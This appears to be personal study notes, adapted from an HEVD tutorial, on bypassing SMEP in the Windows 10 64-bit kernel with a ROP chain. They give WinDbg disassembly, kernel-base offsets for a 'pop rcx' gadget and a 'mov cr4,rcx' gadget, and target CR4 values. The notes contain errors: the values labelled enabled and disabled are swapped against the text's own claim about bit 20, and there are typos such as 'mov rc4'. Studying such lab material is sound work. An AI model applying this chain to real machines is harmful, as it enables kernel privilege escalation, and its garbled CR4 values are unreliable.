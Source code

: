 # Local SMEP bypass via Ropchain Windows10 64bit

> :warning: **This is just some notes for myself.**: Full credits and detailed explanation where i copied most of it comes from the following blog(s)
> https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/

We first need the kernel base adress. With WinDbg this can be achieved by looking for the `nt` loaded modules via `lm sm`. On my Microsoft Windows machine `Version 10.0.18362.30`) it looks like the following.

```C
0: kd> lmDvmnt
Browse full module list
start             end                 module name
fffff805`3c6b5000 fffff805`3d167000   nt         (pdb symbols)          c:\symbols\ntkrnlmp.pdb\35A038B1F6E2E8CAF642111E6EC66F571\ntkrnlmp.pdb
    Loaded symbol image file: ntkrnlmp.exe
    Image path: ntkrnlmp.exe
    Image name: ntkrnlmp.exe
    Browse all global symbols  functions  data
    Image was built with /Brepro flag.
    Timestamp:        E2F1A52B (This is a reproducible build file hash, not a timestamp)
    CheckSum:         00980B26
    ImageSize:        00AB2000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
    Information from resource tables:
```

The cr4 register holds information about if smep is turned on or off in the 20th bit. Any kernel executable that has rop gadgets to flip this bit would now be suffienct to disable rop. Abachy found two short gadgets that let us pop a value into rcx and then move it into cr4 to effectively disable smep.


The pop rcx can be found here in `HvlEndSystemInterrupt`.


```C
0: kd> uf HvlEndSystemInterrupt
nt!HvlEndSystemInterrupt:
fffff805`3c86dc00 4851            push    rcx
fffff805`3c86dc02 50              push    rax
fffff805`3c86dc03 52              push    rdx
fffff805`3c86dc04 65488b142508620000 mov   rdx,qword ptr gs:[6208h]
fffff805`3c86dc0d b970000040      mov     ecx,40000070h
fffff805`3c86dc12 0fba3200        btr     dword ptr [rdx],0
fffff805`3c86dc16 7206            jb      nt!HvlEndSystemInterrupt+0x1e (fffff805`3c86dc1e)  Branch

nt!HvlEndSystemInterrupt+0x18:
fffff805`3c86dc18 33c0            xor     eax,eax
fffff805`3c86dc1a 8bd0            mov     edx,eax
fffff805`3c86dc1c 0f30            wrmsr

nt!HvlEndSystemInterrupt+0x1e:
fffff805`3c86dc1e 5a              pop     rdx
fffff805`3c86dc1f 58              pop     rax
fffff805`3c86dc20 59              pop     rcx # We are interested in a pop rcx
fffff805`3c86dc21 c3              ret
```

The next one that writes the value from rcx into crx can be found in `nt!KiEnableXSave`.


``` C
0: kd> uf nt!KiEnableXSave
nt!KiEnableXSave:
fffff805`3cc50190 0f20e1          mov     rcx,cr4
fffff805`3cc50193 48f7053242fdff00008000 test qword ptr [nt!KeFeatureBits (fffff805`3cc243d0)],800000h
fffff805`3cc5019e b800000400      mov     eax,40000h
fffff805`3cc501a3 0f842a5e0000    je      nt!KiEnableXSave+0x5e43 (fffff805`3cc55fd3)  Branch

nt!KiEnableXSave+0x19:
fffff805`3cc501a9 4885c8          test    rax,rcx
fffff805`3cc501ac 7453            je      nt!KiEnableXSave+0x71 (fffff805`3cc50201)  Branch

nt!KiEnableXSave+0x1e:
fffff805`3cc501ae 48bad803000080f7ffff mov rdx,0FFFFF780000003D8h
fffff805`3cc501b8 33c9            xor     ecx,ecx
fffff805`3cc501ba 488b12          mov     rdx,qword ptr [rdx]
fffff805`3cc501bd 488bc2          mov     rax,rdx
fffff805`3cc501c0 48c1ea20        shr     rdx,20h
fffff805`3cc501c4 0f01d1          xsetbv
fffff805`3cc501c7 48baf005000080f7ffff mov rdx,0FFFFF780000005F0h
fffff805`3cc501d1 488b12          mov     rdx,qword ptr [rdx]
fffff805`3cc501d4 4885d2          test    rdx,rdx
fffff805`3cc501d7 0f85e35d0000    jne     nt!KiEnableXSave+0x5e30 (fffff805`3cc55fc0)  Branch

nt!KiEnableXSave+0x4d:
fffff805`3cc501dd 65488b0c2520000000 mov   rcx,qword ptr gs:[20h]
fffff805`3cc501e6 488d81f0010000  lea     rax,[rcx+1F0h]
fffff805`3cc501ed 483981c0620000  cmp     qword ptr [rcx+62C0h],rax
fffff805`3cc501f4 740a            je      nt!KiEnableXSave+0x70 (fffff805`3cc50200)  Branch

nt!KiEnableXSave+0x66:
fffff805`3cc501f6 8189c862000040001000 or  dword ptr [rcx+62C8h],100040h

nt!KiEnableXSave+0x70:
fffff805`3cc50200 c3              ret  Branch

nt!KiEnableXSave+0x71:
fffff805`3cc50201 480bc8          or      rcx,rax
fffff805`3cc50204 0f22e1          mov     cr4,rcx
fffff805`3cc50207 eba5            jmp     nt!KiEnableXSave+0x1e (fffff805`3cc501ae)  Branch

nt!KiEnableXSave+0x5e30:
fffff805`3cc55fc0 488bc2          mov     rax,rdx
fffff805`3cc55fc3 b9a00d0000      mov     ecx,0DA0h
fffff805`3cc55fc8 48c1ea20        shr     rdx,20h
fffff805`3cc55fcc 0f30            wrmsr
fffff805`3cc55fce e90aa2ffff      jmp     nt!KiEnableXSave+0x4d (fffff805`3cc501dd)  Branch

nt!KiEnableXSave+0x5e43:
fffff805`3cc55fd3 4885c8          test    rax,rcx
fffff805`3cc55fd6 0f8424a2ffff    je      nt!KiEnableXSave+0x70 (fffff805`3cc50200)  Branch

nt!KiEnableXSave+0x5e4c:
fffff805`3cc55fdc 480fbaf112      btr     rcx,12h
fffff805`3cc55fe1 0f22e1          mov     cr4,rcx # We are interested in this gadget
fffff805`3cc55fe4 c3              ret
``` 


It's now time to calculate the offset for the different gadgets, so that they can be used at least with dynamical ntkernel base address.

Gadget 1 for pop rcx can be found at kernelbase + 0x001b8c20 . 
```C
0: kd> ? fffff8053c86dc20 - fffff8053c6b5000
Evaluate expression: 1805344 = 00000000`001b8c20
```

Gadget 2 for mov rc4,rcx can be found at kernelbase + 0x005a0fe1 .
```C
0: kd> ? fffff8053cc55fe1 - fffff8053c6b5000
Evaluate expression: 5902305 = 00000000`005a0fe1
```

Currently SMEP is enabled on my machine and cr4 holds the value:
```C
[+] CR4 hex: 0x00000000002506f8
[+] CR4 bin: 000000000000000000000000000000000000000001001010000011011111000
```

To disable SMEP cr4 the 20th bit in cr4 should be switched to 0, which corresponds to these new value:

```c
[+] CR4 hex: 0x00000000003506f8
[+] CR4 bin: 0000000000000000000000000000000000000000001101010000011011111000
```

